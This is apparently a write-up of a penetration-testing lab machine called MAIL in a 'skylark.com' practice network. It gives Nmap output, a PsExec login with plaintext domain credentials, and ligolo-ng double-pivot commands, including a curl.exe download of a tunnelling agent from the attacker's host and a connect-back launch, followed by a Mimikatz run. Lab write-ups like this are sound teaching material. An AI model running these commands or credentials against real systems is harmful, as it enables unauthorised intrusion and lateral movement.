




# MAIL

## Enumeration

Machine is hosted at `10.10.XXX.13`. Output from Nmap scan run [here](./#nmap):

```
Nmap scan report for MAIL.skylark.com (10.10.175.13)
Host is up (0.091s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mail.skylark.com, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: CHILDREN IDLE IMAP4 SORT completed IMAP4rev1 OK RIGHTS=texkA0001 ACL CAPABILITY QUOTA NAMESPACE
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mail.skylark.com, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11
Aggressive OS guesses: IBM z/OS 1.11 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: mail.skylark.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-28T01:09:14
|_  start_date: N/A
|_nbstat: NetBIOS name: MAIL, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:ad:a4 (VMware)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## Foothold

Before machine enumeration is even started, initial access is [provided](./#credential-spray) as Administrator via the `SKYLARK\backup_service` account. I can use Impacket's PsExec to access the machine:


```bash
impacket-psexec SKYLARK/backup_service:It4Server@mail.skylark.com
```


<figure><figcaption><p>SYSTEM access on MAIL</p></figcaption></figure>

`SYSTEM` access achieved.

## Double Pivot with `ligolo-ng`

One of the first things to note is that this machine can reach the `10.20.XXX.0/24` subnet. So this will likely serve as a pivot into that network.

To reach the `10.20.XXX.0/24` network and its hosts I will need to set up a double pivot with ligolo-ng. To do this I will need to:

1. Set up a port forward on `AUSTIN02`'s `10.10.XXX.254` interface (I chose port 11061 for this) that forwards traffic to the proxy listener on my Kali machine (at `192.168.45.157:5985`)
2. Download `ligolo-ng`'s `agent` to `MAIL` (via HTTPS pivot on `AUSTIN02` at port 443)
3. Launch `agent` on `MAIL` pointing at the listener created in step 1 on `AUSTIN02` (at `10.10.XXX.254:11061`)

### AUSTIN02

To set up the port forward on `AUSTIN02` I just need to use a standard `add_listener` command. I select the internal network interface (`10.10.XXX.254`) and port `11061` for the listener on AUSTIN02. The traffic will be forwarded to the `ligolo-ng` `proxy` session on my machine at `192.168.45.157:5985`:

```
listener_add --addr 10.10.111.254:11061 --to 192.168.45.157:5985
```

Once set up, I can confirm the listener with the `listener_list` command from my `proxy` interface:

<figure><figcaption><p>Listener running on the first-level pivot (AUSTIN02)</p></figcaption></figure>

### MAIL

#### Download Agent

I download the agent software via the remote port forward set up on AUSTIN02 at port 8443 which forwards traffic to my HTTPS web server at 192.168.45.157:443. To do this I just use curl.exe with the base of the URL replaced by the address of the port forward:


```
curl.exe -k https://10.10.111.254:8443/windows/exe/proxy/ligolo-ng/agent_windows_amd64.exe -o C:\Users\Administrator\wkg\lng_agent.exe
```


&#x20;This takes a long time but it eventually downloads.

#### Starting Agent

Normally I would do this in PowerShell and start it as a job in the background. I have found `impacket-psexec` to have issues with a PowerShell terminal so I just sacrifice this particular session and run it from `cmd.exe`:

```
C:\Users\Administrator\wkg\lng_agent.exe -connect 10.10.111.254:11061 -ignore-cert
```

* `-connect` destination is the listener that was [just created](mail.md#austin02) on `AUSTIN02` that will forward back to my `proxy` session

<figure><figcaption><p>Downloading and launching the agent from MAIL</p></figcaption></figure>

#### Configuring Tunnel

Once the second `agent` is started on `MAIL`, I get another connection to `proxy` and can just set up a tunnel as I normally would to route traffic to `10.20.XXX.0/24`:

<figure><figcaption><p>Creating a new interface and tunnel from proxy</p></figcaption></figure>

At this point I can access the [`10.20.XXX.0/24` subnet](../subnet-10.20.xxx.0-24/).

## Post Exploit


### Mimikatz

I run Mimikatz but do not come up with anything useful.
